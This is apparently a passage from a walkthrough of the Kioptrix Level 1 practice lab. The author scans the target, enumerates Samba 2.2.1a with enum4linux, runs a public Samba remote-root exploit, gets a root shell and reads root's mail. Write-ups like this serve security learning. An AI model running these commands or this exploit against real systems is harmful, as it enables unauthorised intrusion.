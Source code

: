 + OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 21 item(s) reported on remote host
+ End Time:           2017-05-18 18:17:59 (GMT-4) (21 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

CVE-2002-0082 sounds interesting!  Some quick Googling finds https://www.exploit-db.com/exploits/764/

After some tutorials the exploit still had problems building.  I know there is other ways in, hunting
for those is more fun than beating on 14 year old c code and trying to fix a library.

SMB is open and a dead giveaway for problems on this server.  Lets poke it more and see what we can find.

root@kali:~# enum4linux 192.168.118.174

***snip***

=========================================
|    OS information on 192.168.118.174    |
=========================================
[+] Got OS info for 192.168.118.174 from smbclient: Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]
[+] Got OS info for 192.168.118.174 from srvinfo:
 KIOPTRIX       Wk Sv PrQ Unx NT SNT Samba Server
 platform_id     :	500
 os version      :	4.5
 server type     :	0x9a03


 ***snip***

 Quick Googling finds https://www.exploit-db.com/download/10.  Look!  That compiles, see...wasn't that more fun than fighting with OpenFuck.

 root@kali:~# ./sambal -b 0 -v 192.168.118.174
 samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
 --------------------------------------------------------------
 + Verbose mode.
 + Bruteforce mode. (Linux)
 + Host is running samba.
 + Using ret: [0xbffffed4]
 + Using ret: [0xbffffda8]
 + Worked!
 --------------------------------------------------------------
 *** JE MOET JE MUIL HOUWE
 Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
 uid=0(root) gid=0(root) groups=99(nobody)
 whoami
 root

 cd /var/spool/mail
 cat root
 From root  Sat Sep 26 11:42:10 2009
 Return-Path: <root@kioptix.level1>
 Received: (from root@localhost)
 	by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
 	for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
 Date: Sat, 26 Sep 2009 11:42:10 -0400
 From: root <root@kioptix.level1>
 Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
 To: root@kioptix.level1
 Subject: About Level 2
 Status: O
